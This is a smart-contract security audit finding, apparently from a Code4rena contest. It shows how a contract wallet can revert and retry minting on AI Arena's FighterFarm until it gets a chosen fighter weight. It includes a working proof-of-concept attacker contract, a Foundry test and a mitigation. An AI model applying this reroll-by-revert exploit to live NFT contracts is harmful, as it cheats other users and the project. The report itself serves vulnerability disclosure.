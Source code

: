 # Can mint NFT with the desired attributes by reverting transaction
## Impact
Can mint NFT with the desired attribute.

## Proof of Concept
All the attributes of the NFT that should be randomly determined are set in the same transaction which they're claimed. Therefore, if a user uses a contract wallet, they can intentionally revert the transaction and retry minting if they do not get the desired attribute.
```solidity
function _createNewFighter(
    address to, 
    uint256 dna, 
    string memory modelHash,
    string memory modelType, 
    uint8 fighterType,
    uint8 iconsType,
    uint256[2] memory customAttributes
) 
    private 
{  
    require(balanceOf(to) < MAX_FIGHTERS_ALLOWED);
    uint256 element; 
    uint256 weight;
    uint256 newDna;
    if (customAttributes[0] == 100) {
@>      (element, weight, newDna) = _createFighterBase(dna, fighterType);
    }
    else {
        element = customAttributes[0];
        weight = customAttributes[1];
        newDna = dna;
    }
    uint256 newId = fighters.length;

    bool dendroidBool = fighterType == 1;
@>  FighterOps.FighterPhysicalAttributes memory attrs = _aiArenaHelperInstance.createPhysicalAttributes(
        newDna,
        generation[fighterType],
        iconsType,
        dendroidBool
    );
    fighters.push(
        FighterOps.Fighter(
            weight,
            element,
            attrs,
            newId,
            modelHash,
            modelType,
            generation[fighterType],
            iconsType,
            dendroidBool
        )
    );
@>  _safeMint(to, newId);
    FighterOps.fighterCreatedEmitter(newId, weight, element, generation[fighterType]);
}

function _createFighterBase(
    uint256 dna, 
    uint8 fighterType
) 
    private 
    view 
    returns (uint256, uint256, uint256) 
{
    uint256 element = dna % numElements[generation[fighterType]];
    uint256 weight = dna % 31 + 65;
    uint256 newDna = fighterType == 0 ? dna : uint256(fighterType);
    return (element, weight, newDna);
}
```
This is PoC.

First, add the PoCCanClaimSpecificAttributeByRevert contract at the bottom of the FighterFarm.t.sol file. This contract represents a user-customizable contract wallet. If the user does not get an NFT with desired attributes, they can revert the transaction and retry minting again.
```solidity
contract PoCCanClaimSpecificAttributeByRevert {
    FighterFarm fighterFarm;
    address owner;

    constructor(FighterFarm _fighterFarm) {
        fighterFarm = _fighterFarm;
        owner = msg.sender;
    }

    function tryClaim(uint8[2] memory numToMint, bytes memory claimSignature, string[] memory claimModelHashes, string[] memory claimModelTypes) public {
        require(msg.sender == owner, "not owner");
        try fighterFarm.claimFighters(numToMint, claimSignature, claimModelHashes, claimModelTypes) {
            // success to get specific attribute NFT
        } catch {
            // try again next time
        }
    }

    function onERC721Received(
        address operator,
        address from,
        uint256 tokenId,
        bytes calldata data
    ) public returns (bytes4){
        
        (,,uint256 weight,,,,) = fighterFarm.getAllFighterInfo(tokenId);
        require(weight == 95, "I don't want this attribute");

        return bytes4(keccak256(bytes("onERC721Received(address,address,uint256,bytes)")));
    }
}
```
Then, add this test to the FighterFarm.t.sol file and run it.
```solidity
function testPoCCanClaimSpecificAttributeByRevert() public {
    uint256 signerPrivateKey = 0xabc123;
    address _POC_DELEGATED_ADDRESS = vm.addr(signerPrivateKey);

    // setup fresh setting to use _POC_DELEGATED_ADDRESS
    _fighterFarmContract = new FighterFarm(_ownerAddress, _POC_DELEGATED_ADDRESS, _treasuryAddress);
    _helperContract = new AiArenaHelper(_probabilities);
    _mintPassContract = new AAMintPass(_ownerAddress, _POC_DELEGATED_ADDRESS);
    _mintPassContract.setFighterFarmAddress(address(_fighterFarmContract));
    _mintPassContract.setPaused(false);
    _gameItemsContract = new GameItems(_ownerAddress, _treasuryAddress);
    _voltageManagerContract = new VoltageManager(_ownerAddress, address(_gameItemsContract));
    _neuronContract = new Neuron(_ownerAddress, _treasuryAddress, _neuronContributorAddress);
    _rankedBattleContract = new RankedBattle(
        _ownerAddress, address(_fighterFarmContract), _POC_DELEGATED_ADDRESS, address(_voltageManagerContract)
    );
    _rankedBattleContract.instantiateNeuronContract(address(_neuronContract));
    _mergingPoolContract =
        new MergingPool(_ownerAddress, address(_rankedBattleContract), address(_fighterFarmContract));
    _fighterFarmContract.setMergingPoolAddress(address(_mergingPoolContract));
    _fighterFarmContract.instantiateAIArenaHelperContract(address(_helperContract));
    _fighterFarmContract.instantiateMintpassContract(address(_mintPassContract));
    _fighterFarmContract.instantiateNeuronContract(address(_neuronContract));
    _fighterFarmContract.setMergingPoolAddress(address(_mergingPoolContract));

    // --- PoC start ---
    address attacker_eoa = address(0x1337);
    vm.prank(attacker_eoa);
    PoCCanClaimSpecificAttributeByRevert attacker_contract_wallet = new PoCCanClaimSpecificAttributeByRevert(_fighterFarmContract);

    uint8[2] memory numToMint = [1, 0];
    
    string[] memory claimModelHashes = new string[](1);
    claimModelHashes[0] = "ipfs://bafybeiaatcgqvzvz3wrjiqmz2ivcu2c5sqxgipv5w2hzy4pdlw7hfox42m";

    string[] memory claimModelTypes = new string[](1);
    claimModelTypes[0] = "original";
    
    // get sign
    vm.startPrank(_POC_DELEGATED_ADDRESS);
    bytes32 msgHash = keccak256(abi.encode(
        address(attacker_contract_wallet),
        numToMint[0],
        numToMint[1],
        0, // nftsClaimed[msg.sender][0],
        0 // nftsClaimed[msg.sender][1]
    ));

    bytes memory prefix = "\x19Ethereum Signed Message:\n32";
    bytes32 prefixedHash = keccak256(abi.encodePacked(prefix, msgHash));

    (uint8 v, bytes32 r, bytes32 s) = vm.sign(signerPrivateKey, prefixedHash);
    bytes memory claimSignature = abi.encodePacked(r, s, v);
    vm.stopPrank();

    for(uint160 i = 100; _fighterFarmContract.balanceOf(address(attacker_contract_wallet)) == 0; i++){
        vm.prank(attacker_eoa);
        attacker_contract_wallet.tryClaim(numToMint, claimSignature, claimModelHashes, claimModelTypes);

        // other user mints NFT, the fighters.length changes and DNA would be changed
        _mintFromMergingPool(address(i)); // random user claim their NFT
    }
   
    assertEq(_fighterFarmContract.balanceOf(address(attacker_contract_wallet)), 1);
    uint256 tokenId = _fighterFarmContract.tokenOfOwnerByIndex(address(attacker_contract_wallet), 0);
    (,,uint256 weight,,,,) = _fighterFarmContract.getAllFighterInfo(tokenId);
    assertEq(weight, 95);
}
```

## Lines of code
https://github.com/code-423n4/2024-02-ai-arena/blob/1d18d1298729e443e14fea08149c77182a65da32/src/FighterFarm.sol#L484

## Tool used
Manual Review

## Recommended Mitigation Steps
Users should only request minting, and attributes values should not be determined in the transaction called by the user. When a user claims an NFT, it should only mint the NFT and end. The attribute should be set by the admin or third-party like chainlink VRF after minting so that the user cannot manipulate it.

It’s not about lack of randomless problem, this is about setting attributes at same transaction when minting NFT. Even if you use chainlink, the same bug can happen if you set the attribute and mint NFTs in the same transaction.